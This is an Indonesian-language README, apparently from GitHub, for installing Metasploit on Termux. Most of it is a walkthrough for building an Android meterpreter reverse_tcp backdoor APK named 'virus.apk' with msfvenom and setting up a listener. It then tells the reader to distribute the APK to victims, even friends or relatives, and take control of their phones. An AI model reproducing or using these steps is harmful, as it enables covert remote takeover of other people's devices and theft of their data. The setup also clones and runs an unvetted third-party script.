 # MspoitZonaredXXII
By. Mr.HRC303





INSTALL & KERJA METASPLOIT :
$ pkg update && pkg upgrade
$ pkg install bundler
$ pkg install wget
$ pkg install ruby
$ pkg install git
$ git clone https://github.com/HRC303/M-SploitXXII.git
$ cd M-SploitXXII
$ chmod +x M-SploitXXII.sh
$ ./M-SploitXXII.sh
$ msfconsole

CARA KERJANYA :
1. Pertama kita akan membuat payload/backdoor atau virus yang kita gunakan untuk dirimkan ke korban agar dapat akses ke HP nya.
Silahkan ketik: 
msfvenom -p android/meterpreter/reverse_tcp LHOST=IP Kamu LPORT=8080 -o /sdcard/virus.apk

2. Cara mengetahui IP address kita ketik : ifconfig

> msfconsole
> use exploit/multi/handler
> set payload android/meterpreter/reverse_tcp
> set lhost IP KAMU
> set lport 8080
> run
setelah itu,kita sebarkan payload yang sudah kita buat diawal tadi,agar diinstal di hp korban,anda juga bisa mencoba pada teman, saudara atau di hp sendiri.

jika ada korban yang menginstal dan menjalankan virus tersebut,kita sudah dapat mengendalikan hp korban dengan perintah-perintah yang terdapat pada Metasploit

Untuk mengetahui perintah yang dapat kita gunakan ketik help.
